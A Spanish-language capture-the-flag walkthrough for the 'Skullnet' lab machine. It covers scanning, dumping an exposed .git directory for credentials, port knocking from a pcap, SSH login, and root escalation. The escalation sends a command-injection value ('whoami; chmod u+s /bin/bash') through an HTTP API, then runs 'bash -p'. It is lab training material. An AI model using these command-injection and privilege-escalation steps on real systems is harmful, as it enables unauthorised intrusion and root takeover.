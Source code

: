 Maquina: Skullnet

Autor: The Hacker Labs

Dificultad: Dificil

![Screenshot 2024-11-16 095739](https://github.com/user-attachments/assets/5b69c447-8f76-4777-89e0-f4dcc3380249)

ping 172.18.0.2 -c 1

![Screenshot 2024-11-16 103630](https://github.com/user-attachments/assets/98973b45-693a-4426-8722-d09e20842a5a)

Hacemos un escaneo de los puertos

nmap -sC -sV -Pn 172.18.0.2 -oG escaneo

![Screenshot 2024-11-16 103847](https://github.com/user-attachments/assets/7c3f10fb-1286-4be3-a496-72c98e456203)

Añadimos la ip a /etc/hosts

![Screenshot 2024-11-16 104855](https://github.com/user-attachments/assets/8aa55dae-716b-4f12-beec-1e8d80d17d6f)

Hacemos un escaneo mas detallado y encontramos un directorio .git

nmap -sC -sV -Pn --open 172.18.0.2

![Screenshot 2024-11-16 104931](https://github.com/user-attachments/assets/2e98fb2b-410d-49a9-8380-8d4ac43c0b04)

vamos a la web encontrada del repositorio de git 

http://skullnet.es/.git/

![Screenshot 2024-11-16 113342](https://github.com/user-attachments/assets/66024a49-87e3-4558-b20f-d078a9cccaee)

usamos wget

wget -r http://skullnet.es/.git/

![Screenshot 2024-11-16 113355](https://github.com/user-attachments/assets/bec08fe1-f665-4fd4-aa3c-b4c1590e39f5)

ls    

cd skullnet.es    

ls -a 

git log

descubrimos 2 hashes

![Screenshot 2024-11-16 113415](https://github.com/user-attachments/assets/fd0e2d19-6129-4461-baac-bb362bdcdcc2)

Revisamos cada commit, en el primero observamos que tenemos un mensaje

git show 9c902d081106a85cf2d928cd96a1cd9c90d7a2c9

![Screenshot 2024-11-16 113450](https://github.com/user-attachments/assets/90f6aea5-1218-46be-af7a-e20338352a19)

En el segundo commit tenemos lo siguiente

git show 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![Screenshot 2024-11-16 113517](https://github.com/user-attachments/assets/c05d26f4-3e00-4c90-9402-211f92fe6e5b)

Observamos que identificamos varios archivos

Para recuperar los archivos

git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d  

ls

git diff

![Screenshot 2024-11-16 113947](https://github.com/user-attachments/assets/04154f80-6e89-42ee-9d41-134210af4d34)

git checkout -- .

ls

![Screenshot 2024-11-16 114032](https://github.com/user-attachments/assets/77132f4c-6b43-441b-bbed-352c054579ae)

cat authentication.txt

Obtenemos unas credenciales

skulloperator:+%7nj^g!DQxp]a>c4v&0

![Screenshot 2024-11-16 114058](https://github.com/user-attachments/assets/af9b81e8-37e2-441d-8cb1-b3357391d8eb)

Seguimos revisando y ahora debemos buscar el archivo /network.pcap

wireshark network.pcap

Abrimos el archivo con whireshark, como la consulta es corta podemos hacerlo manual. 
Comprobando la captura podemos observar que en la IP de nuestro interés se tiene comunicación con el puerto SSH y 3 puertos adicionales

![Screenshot 2024-11-16 114313](https://github.com/user-attachments/assets/68f61549-87d5-4247-a292-55ba1e440311)

Con esta información realizaremos un port knocking a los puertos encontrados

knock -v 172.18.0.2 1000 12000 5000

![Screenshot 2024-11-16 115003](https://github.com/user-attachments/assets/f7922159-5e99-482c-a5da-0d49b6b83772)

ejecutar nmap

nmap -p22 172.18.0.2

![Screenshot 2024-11-16 115021](https://github.com/user-attachments/assets/297d6b9f-5e74-45e4-a64d-950c1835fd18)

Ya que tenemos habilitado el puerto SSH 

Accedemos por ssh con las credenciales obtenidas

ssh skulloperator@172.18.0.2

![Screenshot 2024-11-16 115325](https://github.com/user-attachments/assets/7b48504b-c5aa-45c3-8e89-5eb1916a83a9)

ls

cat user.txt

![Screenshot 2024-11-16 115325](https://github.com/user-attachments/assets/ade0c15d-6f3c-492e-9fd8-4d466f0f8c50)

![Screenshot 2024-11-16 115412](https://github.com/user-attachments/assets/646eaf72-a5e0-41df-8d4d-eaabf55afb2e)


find / -perm -4000 -ls 2> /dev/null

![Screenshot 2024-11-16 115727](https://github.com/user-attachments/assets/ec11e213-ead9-4d38-b242-8deaf7908f55)

ps -faux

![Screenshot 2024-11-16 115752](https://github.com/user-attachments/assets/9464534a-89ae-4ec9-a2c8-6b6acc5de4f3)

Revisando procesos observamos que tenemos el archivo skullnet_api.py que lo está ejecutando root

![Screenshot 2024-11-16 120010](https://github.com/user-attachments/assets/17479735-ee3c-4b5a-bd5f-5ab5ad9a81a3)

Abrimos el archivo y podemos observar el siguiente escucha en el puerto 8081 y ejecuta comandos cuando recibe una solicitud http get con un parámetro específico

![Screenshot 2024-11-16 120111](https://github.com/user-attachments/assets/26614078-4fbb-4c72-b22f-79284415c038)

Este código para la parte de autenticación espera un encabezado Authorization con el esquema de basic, como tenemos la clave de autenticación AUTH_KEY_BASE64 y si esa sección convertimos de base 64 podemos observar lo siguiente:

echo "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA==" | base64 -d

Con esto en conocimiento la estructura del encabezado de Authorization sería la siguiente

Authorization: basic we_are_bones_513546516486484

![Screenshot 2024-11-16 120337](https://github.com/user-attachments/assets/da95a1bd-4245-43a9-8018-86fc226da87f)

usamos curl con el parametro exec

Ejecutamos el comando y podemos observar que listamos archivos y también podemos observar que los ejecutamos como root

curl http://localhost:8081/?exec=ls -H 'Authorization: Basic we_are_bones_513546516486484'

curl http://localhost:8081/?exec=whoami -H 'Authorization: Basic we_are_bones_513546516486484'

Encodeamos la URL con https://www.urlencoder.org/

whoami; chmod u+s /bin/bash

whoami%3B%20chmod%20u%2Bs%20%2Fbin%2Fbash

![Screenshot 2024-11-16 123436](https://github.com/user-attachments/assets/6dec753e-d6cf-4e71-a65e-55ca9325133b)

![Screenshot 2024-11-16 123352](https://github.com/user-attachments/assets/91f9c799-2201-4453-84f7-fe77ae7b08d8)

ls -l /bin/bash

bash -p

whoami

![Screenshot 2024-11-16 123704](https://github.com/user-attachments/assets/a8afc596-0c0e-406c-800b-38a969f112ab)
